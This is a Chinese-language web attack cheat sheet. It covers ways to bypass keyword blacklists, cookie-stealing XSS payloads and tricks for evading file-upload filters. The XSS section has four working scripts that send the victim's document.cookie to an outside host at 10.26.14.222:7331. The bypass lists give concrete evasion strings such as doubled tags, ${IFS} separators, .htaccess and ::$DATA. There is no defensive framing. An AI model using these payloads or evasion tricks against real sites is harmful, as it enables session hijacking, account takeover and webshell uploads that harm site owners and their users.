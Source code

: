 ## 通用黑名单绕过手法

等价替换/利用程序特征、漏洞等价替换

- 关键字随机大小写：如`PhP`、`<ScRIpt>`、`UnIoN`等
- 编码：如十六进制编码、URL编码、HTML实体编码等
- 空白符替换：`%09`、`%0a`、`%0d`、内联注释符`/**/`、分隔符`${IFS}`等
- 关键字替换：如`phtml`代替`php`、`&&`代替`and`、`||`代替`or`等

- 某些情况下可以添加额外的字符而不影响程序执行结果：如首尾的空格、`.`、`/.`、`ca\t`、`c'a't`等
- 双写：如`pphphp`、`<scr<script>ipt>`等
- 程序缺陷：如两次URL编码`%252f`、SQL注释`-#- #`等

## XSS

```HTML
<script>
document.write('<img src="http://10.26.14.222:7331/?c=' + document.cookie + '" />');
</script>
```

```HTML
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.26.14.222:7331/?c=' + document.cookie, true);
xhr.send();
</script>
```

```HTML
<script>document.location='http://10.26.14.222:7331/?c='+document.cookie</script>
```

```HTML
<script>new Image().src='http://10.26.14.222:7331/?c='+document.cookie;</script>
```

## 文件上传


- 客户端（前端）验证：无影响

- 服务端（后端）验证

    - 检查filename后缀

        - 黑名单

            - 关联扩展名`php3` `php4` `php5` `phtml`
            - 大小写 `PHp` 
            - 双写 `pphphp` `.p.phphp`
            - 加空格 `php ` 等
            - 加点 `php.` `php..` 等
            - 目录相关 `php/.` `php/x/..` 等
            - Apache配置文件 `.htaccess`
            - PHP运行时配置文件 `.user.ini`
            - NTFS文件系统特殊标记 `::$DATA`
